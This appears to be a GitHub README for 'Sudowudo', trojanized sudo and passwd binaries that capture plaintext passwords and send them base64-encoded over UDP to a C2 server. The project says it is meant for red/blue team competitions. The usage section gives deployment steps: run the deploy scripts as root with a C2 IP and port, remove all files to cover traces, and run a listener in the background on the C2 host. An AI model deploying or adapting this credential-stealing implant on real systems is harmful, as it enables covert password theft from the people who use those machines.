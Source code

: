 # Sudowudo 

Sudowudo is comprised of two binary shims: sudo, and passwd. These are intented for blue/red team competition use in order to exfiltrate plaintext passwords from the blue team. These shims are not inteded to be used for malicious purposes. 

Passwords are encoded in base64 and sent over in a UDP datagram. The information from the sudo portion conveys which user ran sudo, while from the shadow/passwd portion it conveys which user's password is being set.

## Prerequisites

These have both only been tested on Ubuntu 22.04 Jammy Jellyfin, and will most likely only work on that version.
Root is required on any box that is going to have these shims deployed on them. The deploy scripts should install all required dependencies, but may take some tweaking.

## Usage

1. Move `deploy-shadowudo`, `deploy-sudowudo`, and `sudowudo.c` to the target.
2. Run `sudo ./deploy-shadowudo {C2 IP} {PORT}` and `sudo ./deploy-sudowudo {C2 IP} {PORT}`
3. Remove all files
4. Move `sudowudo-listener.py` to the C2 server/jumpbox and run it with your selected port
5. Either monitor the python script itself, or run it with `screen -d -m python3 sudowudo-listener.py` to run it in the background and have another terminal window running `tail -f /var/log/sudowudo.log`